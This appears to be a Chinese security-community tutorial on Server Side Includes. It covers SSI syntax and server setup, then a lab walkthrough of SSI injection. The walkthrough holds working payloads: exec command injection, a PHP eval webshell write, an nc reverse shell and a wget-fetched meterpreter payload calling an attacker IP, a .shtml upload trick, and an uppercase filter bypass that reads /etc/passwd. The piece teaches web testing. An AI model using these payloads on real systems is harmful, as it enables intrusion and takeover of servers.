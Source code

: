 

# SSI 攻防技术简易刨析 - 先知社区

SSI 攻防技术简易刨析

- - -

## 基本介绍

SSI(Server Side Includes，即服务器端包含) 是一种用于网页开发的服务器端技术，它允许网页开发者在网页中插入 SSI 指令来动态地生成网页内容，这些指令可以用于包含外部文件、执行条件判断和循环等操作，从而简化网页开发和维护工作，它的强大之处就在于我们有时候只需要一条简单的 SSI 命令就可以实现整个网站的内容更新，例如：时间和日期的动态显示、执行 Shell 和 CGI 脚本程序等复杂的功能，SSI 可以称得上是那些资金短缺、时间紧张、工作量大的网站开发人员的最佳帮手

## 语法格式

SHTML(Server Side Includes HTML) 是一种扩展名为".shtml"的网页文件格式，它是一种结合了 HTML 和 SSI(Server Side Includes) 功能的文件类型，SHTML 文件可以包含静态的 HTML 内容以及服务器端脚本代码以实现动态内容的生成和展示，在 SHTML 文件中 SSI 指令基本格式如下所示，需要特别注意的是其语法格式必须是以 html 的注释符<!--开头、且后面紧接#符号和 SSI 命令，它们期间不能存在空格

```plain
<!--#command param="value"-->
```

SSI 中常见的几种指令如下所示：  
A、config 命令  
基本描述：config 命令主要用于配置和设置 SSI 的参数和选项  
语法格式：  
简易示例：

```plain
#设置错误页面
<!--#config errordocument="404 /errors/notfound.html" -->

#设置日期和时间格式
<!--#config timefmt="%Y-%m-%d %H:%M:%S" -->
```

B、include 命令  
基本描述：include 命令用于将其他文件的内容插入到当前网页中  
语法格式：或  
简易示例：

```plain
#包含文件
<!--#include file="header.html" -->

#包含虚拟文件
<!--#include virtual="/includes/header.html" -->
```

C、echo 命令  
基本描述：echo 命令用于显示指定变量的值或其他内容  
语法格式：  
简易示例：

```plain
#显示变量值
<!--#set var="pageTitle" value="Welcome" -->
<!--#echo var="pageTitle" -->

#显示服务器环境变量
<!--#echo var="SERVER_NAME" -->
```

D、fsize 命令  
基本描述：fsize 命令用于显示指定文件的大小  
语法格式：  
简易示例：

```plain
<!--#fsize file="image.jpg" -->
```

E、flastmod 命令  
基本描述：flastmod 命令用于显示指定文件的最后修改时间  
语法格式：  
简易示例：

```plain
<!--#flastmod file="index.html" -->
```

F、exec 命令  
基本描述：exec 命令用于在服务器上执行指定的命令并将结果输出到网页中  
语法格式：  
简易示例：

```plain
<!--#exec cmd="ls -l" -->
```

G、for 命令  
基本描述：for 命令用于定义一个变量并在指定范围内循环执行相应的代码块  
语法格式：

```plain
<!--#for var="variable" start="start" end="end" -->
    <!--#echo var="variable" -->
<!--#endfor -->
```

简易示例：假设需要在网页中显示数字 1 到 5，可以使用循环命令来实现

```plain
<!--#for var="i" start="1" end="5" -->
    <!--#echo var="i" -->
<!--#endfor -->
```

H、if 命令  
基本描述：if 命令用于根据条件判断来选择性地显示不同的内容  
语法格式：

```plain
<!--#if expr="expression" -->
    <!--#echo var="variable" -->
<!--#else -->
    <!--#echo var="other_variable" -->
<!--#endif -->
```

简易示例：假设有一个变量 isLoggedIn 用于判断用户是否已登录，根据该条件判断可以显示不同的欢迎信息

```plain
<!--#if expr="$isLoggedIn eq 'true'" -->
    <p>Welcome, user!</p>
<!--#else -->
    <p>Welcome, guest!</p>
<!--#endif -->
```

备注：SSI 的语法虽然非常简单，但在使用中需注意以下几点

-   SSI 大小写敏感
-   <!--与#之间无空格
-   value 需写在引号中

## 服务启动

### IIS

在 IIS(Internet Information Services) 中配置 SSI(Server Side Includes) 可按照以下步骤进行操作：  
1、打开 IIS 管理器，您可以在 Windows 服务器上的"管理工具"或通过运行"inetmgr"命令来打开它  
2、在左侧的导航栏中展开服务器名称并选择您要配置的站点  
3、双击"处理程序映射"图标  
4、在右侧的"操作"面板中单击"添加模块映射"  
5、在"添加模块映射"对话框中配置以下设置  
请求路径：\*.shtml(或您希望启用 SSI 的文件扩展名）  
模块：ServerSideIncludeModule  
可执行文件：%windir%\\system32\\inetsrv\\ssinc.dll  
名称：任意指定一个名称，例如："SSI"  
6、单击"确定"保存模块映射配置  
7、返回到 IIS 管理器主窗口，在站点上右键单击，选择"高级设置"  
8、在"高级设置"对话框中找到"默认文档"属性并确保您的默认文档列表中包含 SSI 文件 (例如：default.shtml)  
9、单击"确定"保存更改

### Nginx

Step 1：首先我们要确保已安装 Nginx 的 ngx\_http\_ssi\_module 模块，这一点可以通过运行以下命令检查是否已启用该模块，如果在输出中存在"--with-http\_ssi\_module"，则说明模块已启用

```plain
nginx -V
```

Step 2：打开 Nginx 配置文件并如下几项

```plain
ssi on;
ssi_silent_errors off;
ssi_types text/shtml;
```

完整示例如下：

```plain
server{
    listen 80;
    server_name www.al1ex.com

    // 配置SSL
    ssi on;                 // 开启SSI支持
    ssi_silent_errors on;   // 指定是否在SSI处理过程中忽略错误,如果将其设置为on，当SSI命令无法执行或出现错误时，Nginx将继续处理页面而不中断并显示错误消息
    ssi_types text/html;    // 指定哪些响应类型将启用SSI功能,在此示例中我们将SSI应用于text/html类型的响应

    location / {
        root html;
        index index.html index.htm;
    }
}
```

### Apache

在 Apache 中配置 SSI 需要修改其配置文件，流程大致如下：  
Step 1：打开 Apache 的配置文件，确保在配置文件中存在以下行以启用 mod\_include 模块

```plain
LoadModule include_module libexec/apache2/mod_include.so
```

Step 2：在配置块中添加以下指令以启用 SSI 功能，随后保存并关闭配置文件，重新启动 Apache 即可

```plain
Options +Includes                   //启用服务器端包含
AddType text/html .shtml            //指定 SSI 文件的扩展名为.shtml，您可以根据需要使用其他扩展名
AddOutputFilter INCLUDES .shtml     //将输出过滤器设置为 INCLUDES，以便在.shtml 文件上应用 SSI 处理
```

## 漏洞介绍

造成 SSI 漏洞的主要原因在于当用户可以控制 SSI 指令的部分内容时，攻击者可以插入要执行的恶意代码，例如：如果开发者未对用户的输入进行适当的过滤处理，那么攻击者便可以差入类似""的指令来实现文件读取等各种恶意操作，同事也可以进行反弹 shell，这一点我们在下面的文章内容中进行介绍

## 漏洞挖掘

### 利用条件

-   Web 服务器端支持 SSI
-   用户输入的内容，返回在 HTML 页面中
-   参数未进行输入过滤或者过滤不严格导致可绕过

### 相关业务

在很多业务中页面中一小部分在动态输出的时候经常会使用到 SSI，常见的有以下几种：

-   访客 IP
-   当前时间
-   定位信息
-   文件相关的属性字段

PS：网站存在.stm,.shtm 和.shtml 文件，那说明该网站支持 SSI 指令，由于后缀名并非是强制规定的，因此如果没有发现任何.shtml 文件也并不意味着目标网站没有受到 SSI 注入攻击的可能

## 靶机示例

### 发现漏洞

这里我们以 Vulhub 中的一个靶机为例进行简易介绍，在前期的信息收集阶段我们通过目录扫描发现目标服务器上存在 index.shtml 文件，说明此站点支持 SSI 指令，基于此我们直接访问 index.shtml，发现页面展示了一个 SSI 命令，这也在暗示我们这个网站存在 SSI 漏洞  
[![](assets/1703831460-0ce266884b1155327761449daa7970e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133325-9f899848-a542-1.png)  
我们抱着试一试的心态对首页仅有的输入框进行 Fuzzing 测试

```plain
<!--#EXEC cmd="whoami" -->
```

[![](assets/1703831460-0f4c0f54c836969d1eedf5efa28430d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133410-b9f2b3cc-a542-1.png)  
随后我们看到页面中回显了执行的结果，从结果中我们可以看到这里的 SSI 注入点为第二个框，也就是 Feedback，同时我们发现了一个 ssi.shtml 页面

[![](assets/1703831460-026ca6d3f03b2a3949c297e191ae778e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133447-d06a5088-a542-1.png)

[![](assets/1703831460-27d846da2cdd0451c66ed52285c8a0af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133517-e206a1fc-a542-1.png)

### 普通查询

随后下面的测试我们在 burpsuite 中进行测试

```plain
#文档名称
<!--#echo var="DOCUMENT_NAME"-->
```

[![](assets/1703831460-10e4490a35d56ec3c043e24eec263d8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133755-4025f224-a543-1.png)

[![](assets/1703831460-c95f270ab36a5569cbe940e0443e6e43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133812-4a5ce108-a543-1.png)

```plain
#当前时间：
<!--#echo var="DATE_LOCAL"-->
```

[![](assets/1703831460-e2ecc64da459f004ecb6474fdd58a165.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133838-59c3628e-a543-1.png)

[![](assets/1703831460-6881a84d9b976a1b5d1204223b4c0db6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133849-60c2d5e2-a543-1.png)

```plain
#IP 地址信息
<!--#echo var="REMOTE_ADDR"-->
```

[![](assets/1703831460-b297b5ee322c891f4beb77c80e48e15b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133913-6e7b04b6-a543-1.png)

[![](assets/1703831460-643d845fb878c6d9536dbc3df3786cff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228133925-75ab4fc0-a543-1.png)

### 执行命令

当我们发现 SSI 漏洞时我们可以借助 exec 指令来实现命令执行 (这里很多人可能会好奇为啥这里是 EXEC，而不是 exec，这是因为此靶机有一层检查，但是结合之前我们说的 SSI 对大小写敏感所以我们通过大写的方式实现注入利用)：

```plain
<!--#EXEC cmd="ls -al"-->
```

[![](assets/1703831460-9c1ea38d500dfed95c588c466834a68e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134153-ce454636-a543-1.png)

[![](assets/1703831460-b6920d4bd27901c0aed672e731884fe6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134331-086b92f2-a544-1.png)

### Webshell

由于上面查看的环境中文件以 php 结尾，故此我们可以判断目标环境为 php 环境，所以我们可以直接通过 SSI 漏洞来写入 PHP 木马文件实现 getshell 目的

```plain
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[![](assets/1703831460-eddc962106a25eca2a2186d6957c7d69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134402-1b4124a0-a544-1.png)  
[![](assets/1703831460-38ee8d712ce6756916b5f380b5ec319f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134414-2209060e-a544-1.png)  
随后我们进行一个列目录的操作

```plain
<!--#EXEC cmd="ls -al"-->
```

[![](assets/1703831460-c29035c030ad95e1132fe5004bdd7e22.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134443-3394e3ac-a544-1.png)  
随后可以看到 a.php 文件被上传到服务器端  
[![](assets/1703831460-c52b8d03d50b46cfbd0920a862533707.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134500-3d736042-a544-1.png)  
然后我们直接使用蚁剑进行链接  
[![](assets/1703831460-b3300d986a917b4f605668db2290f90c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134520-49ccfc40-a544-1.png)  
随后获取到服务器端的 shell 权限  
[![](assets/1703831460-6495502c244d11a2f0af1494173c2927.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134537-538ef120-a544-1.png)

### 反弹 shell

既然 SSI 的指令可以用于执行系统命令那么我们有没有方法可以实现反弹 shell 呢？与其猜想，不如一试

```plain
#使用 nc 反弹 shell
<!--#EXEC cmd="nc 192.168.204.135 9999 -e /bin/bash"-->
```

[![](assets/1703831460-6ec5638c950f0cbd63c9605955bed0e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134641-79ba52c2-a544-1.png)  
[![](assets/1703831460-f4b6199b3e22bc344f67d8c04b82725a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134651-800239b0-a544-1.png)  
但是发现并未反弹 shell 回来

[![](assets/1703831460-284e029b743bbde3c70997ac9e7b6042.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134712-8c2b9fb0-a544-1.png)

后来发现目标主机虽然有 nc，但是属于阉割版本，没有-e 参数，无法反弹  
[![](assets/1703831460-52509f35a8f57560498f04c2aee26b06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134814-b116e604-a544-1.png)

### MSF 反弹

首先生成 pyton 木马文件

```plain
msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.204.135 lport=4444 -f raw > shell.py
```

[![](assets/1703831460-eb48e958e5a3b543a48c65be2a4be4ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134839-c00e84a0-a544-1.png)  
在 MSF 中建立木马监听

```plain
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 192.168.204.135
set lport 4444
exploit
```

[![](assets/1703831460-e42db718f3239e880ad43ba9af1a29a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134933-e016698e-a544-1.png)  
随后使用 python 建立一个简易的 http 服务用于托管 shell.py 文件

```plain
python2 -m SimpleHTTPServer 1234
```

[![](assets/1703831460-f9ebe297ba1dd84bcdf146e90f89d11a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228134957-ee656030-a544-1.png)  
然后构造 SSI 注入语句执行木马文件

```plain
<!--#EXEC cmd="wget http://192.168.204.135:1234/shell.py"-->
```

[![](assets/1703831460-da7ab00eb9ec9beee3bdd938cb5a2be8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135027-009509fe-a545-1.png)  
[![](assets/1703831460-c84228bfd130d757d3a1ff32ab946e6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135037-06b5459c-a545-1.png)  
给文件赋予权限：

```plain
<!--#EXEC cmd="chmod 777 shell.py"-->
```

[![](assets/1703831460-2c4400171d24afa58a449eff4cef7d3c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135101-14edf1b8-a545-1.png)  
随后执行木马文件

```plain
<!--#EXEC cmd="python shell.py"-->
```

[![](assets/1703831460-0ecd6a4c5a8ab46d4338ba1a29f2d02f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135123-21d8146c-a545-1.png)  
收到请求记录  
[![](assets/1703831460-27ddf7128ebc831bde58b4a412f41f91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135154-346afefa-a545-1.png)  
获取 meterreter 操作终端  
[![](assets/1703831460-96d3f84fa547d5c32ef9900a563ac9df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135329-6cdbd32c-a545-1.png)

## 另类利用

在测试任意文件上传漏洞的时候如果目标服务端可能不允许上传 php 后缀的文件，但是目标服务器开启了 SSI 与 CGI 支持，此时我们可以上传一个 shtml 文件并利用语法执行任意命令

### 环境演示

环境文件以 php 为后缀，所以我们可以了解到环境为 PHP 解析环境，随后我们尝试上传 PHP 文件来 getshell  
[![](assets/1703831460-acfcadd053866529d1deb3374e9bd01c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135854-2eb80b14-a546-1.png)  
此时发现上传的 PHP 文件类型不支持  
[![](assets/1703831460-6f75cac8518a30db7c4bddcec6e1d762.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135908-37104240-a546-1.png)  
此时我们可以尝试随意输入一个路径获取后端中间件信息，发现是 Apache/2.4.25 版本，此时考虑到 php 文件上传这一条路已经不通了，而后端是 Apache，那么我们可以硬着头皮试试是否 Apache 存在 SSI 配置错误  
[![](assets/1703831460-1e0b85884f69577602d25e0081d6750e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135942-4b35ee78-a546-1.png)  
随后我们更改 shell.php 文件为 shell.shtml 并更改其内容

```plain
<!--#exec cmd="ls -al" -->
```

[![](assets/1703831460-917ed4f1f5920d77533ea6a366c41aa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142022-2e9a592c-a549-1.png)  
随后上传文件  
[![](assets/1703831460-ed0d27c87526d108d51680bb43fba85c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142043-3aea59d4-a549-1.png)  
紧接着会出现一个 shell.shtml 文件的连接，我们直接访问会得到其执行的结果：

[![](assets/1703831460-fee3157223b5830bddb98071d96cfa65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142054-419ae79e-a549-1.png)

[![](assets/1703831460-da32fcf325e201292266f43331db53d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142138-5bdb2dc6-a549-1.png)  
随后我们可以使用同样的方法上传文件获取到当前文件的路径并进行写一句话后门文件

```plain
<!--#EXEC cmd="echo '<?php eval(\$_POST[c]);?>' > a.php"-->
```

[![](assets/1703831460-030de1f8514c65729ca50a1b5a437b0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142200-689f4114-a549-1.png)  
此时在服务器端我们可以看到文件被成功写入  
[![](assets/1703831460-8b9dd0ad935728f2e203400ab76d5ba9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142209-6e544898-a549-1.png)  
随后使用蚁剑直接进行连接即可实现 GetShell  
[![](assets/1703831460-516f7dc28c5075ba0c101d5f877ca624.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142222-75b37d48-a549-1.png)  
[![](assets/1703831460-81f83edf44c66605daf6bb2ac5a65b91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142231-7b8cc3be-a549-1.png)  
获取到服务器的 shell 权限后我们来查看一下具体的 Apache 的错误配置信息是怎么样子的

[![](assets/1703831460-9650db4afa9dc4937cbc97d434ae10fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142247-849a37f2-a549-1.png)

[![](assets/1703831460-4c897eb3fe849bbe2cdfe93590b91a5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142252-880390dc-a549-1.png)

[![](assets/1703831460-df32231b434685d309c525d8747af900.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228142257-8b106048-a549-1.png)  
上述配置是针对 Apache HTTP Server 的<directory>指令的设置，它指定了对/var/www/目录的访问权限和相关选项：</directory>

-   <Directory /var/www/>：该行指定了要配置的目录路径为 /var/www/。可以根据实际情况更改为其他目录路径
-   Options -Indexes +Includes：这行设置了目录的选项，具体解释如下：
    -   \-Indexes：禁止目录列表功能，当用户访问一个没有指定索引文件的目录时，网页服务器会显示该目录的文件列表，通过使用-Indexes 选项，禁止显示目录文件列表，增加安全性
    -   +Includes：启用 SSI(Server Side Includes) 功能，SSI 允许在网页中嵌入服务器端执行的指令从而实现动态内容的生成和插入
-   AllowOverride All：这行指定了允许使用.htaccess 文件来覆盖目录配置，.htaccess 文件是 Apache 服务器中用于在特定目录中修改配置的文件，通过设置 AllowOverride All，允许在/var/www/目录中使用.htaccess 文件来覆盖主配置文件中的设置

## 绕过思路

有时候我们在使用 SSI 注入命令时会发现 exec 等命令会被过滤处理，如果此时后端只是过滤了小写 (通常也用小写)，那么我们可以考虑使用大写的方式来绕过，例如：

```plain
#使用小写时被屏蔽
<!--#exec cmd="cat /etc/passwd" -->
```

[![](assets/1703831460-aabcee512f12b3d8f74e67d68fefa0fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135401-800eade8-a545-1.png)  
[![](assets/1703831460-c68bb8a245714a50cd120c772be5007f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135426-8ee33546-a545-1.png)

```plain
#使用大写实现绕过
<!--#EXEC cmd="cat /etc/passwd" -->
```

[![](assets/1703831460-27ce90d5ced7a85527483ce3b3f36cff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135451-9de5bbc2-a545-1.png)

[![](assets/1703831460-e5e2b2bfc4e41555298b0fbaf0918193.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231228135500-a369b346-a545-1.png)

## 防御措施

-   如果不使用 SSI 服务则关闭服务器 SSI 功能
-   过滤相关 SSI 特殊字符 (`<,>,#,-,",'`)
